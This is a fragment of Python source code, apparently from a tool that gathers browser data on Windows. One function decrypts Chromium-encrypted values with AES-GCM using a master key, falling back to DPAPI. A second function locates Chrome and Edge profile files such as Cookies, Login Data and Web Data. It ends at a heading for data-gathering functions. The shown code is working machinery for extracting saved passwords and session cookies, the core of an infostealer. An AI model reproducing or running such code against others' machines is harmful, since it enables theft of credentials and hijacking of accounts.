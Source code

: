 def decrypt_value(encrypted_value, master_key=None):
    """
    Attempts to decrypt an encrypted value using the master key with AES-GCM if possible;
    otherwise, falls back to DPAPI decryption.
    """
    try:
        if encrypted_value.startswith(b'v10') or encrypted_value.startswith(b'v11'):
            iv = encrypted_value[3:15]
            payload = encrypted_value[15:]
            if master_key:
                aesgcm = AESGCM(master_key)
                decrypted = aesgcm.decrypt(iv, payload, None)
                return decrypted.decode('utf-8', errors='replace')
            else:
                return "Could not decrypt"
        else:
            return win32crypt.CryptUnprotectData(encrypted_value, None, None, None, 0)[1].decode('utf-8', errors='replace')
    except Exception:
        return "Could not decrypt"

###########################
# File Detection Helper
###########################

def find_chromium_file(browser_name, filename):
    """
    Searches for a Chromium-based browser file (e.g., Cookies, History, Login Data, Web Data)
    in the default profile folder; if not found, searches all subdirectories.
    """
    browser_name = browser_name.lower()
    if browser_name == "chrome":
        base_path = os.path.join(os.environ.get("LOCALAPPDATA", ""), "Google", "Chrome", "User Data")
    elif browser_name == "edge":
        base_path = os.path.join(os.environ.get("LOCALAPPDATA", ""), "Microsoft", "Edge", "User Data")
    else:
        return None

    default_path = os.path.join(base_path, "Default", filename)
    if os.path.exists(default_path):
        return default_path

    if os.path.exists(base_path):
        for profile in os.listdir(base_path):
            candidate = os.path.join(base_path, profile, filename)
            if os.path.exists(candidate):
                return candidate
    return None

###########################
# Data Gathering Functions
###########################
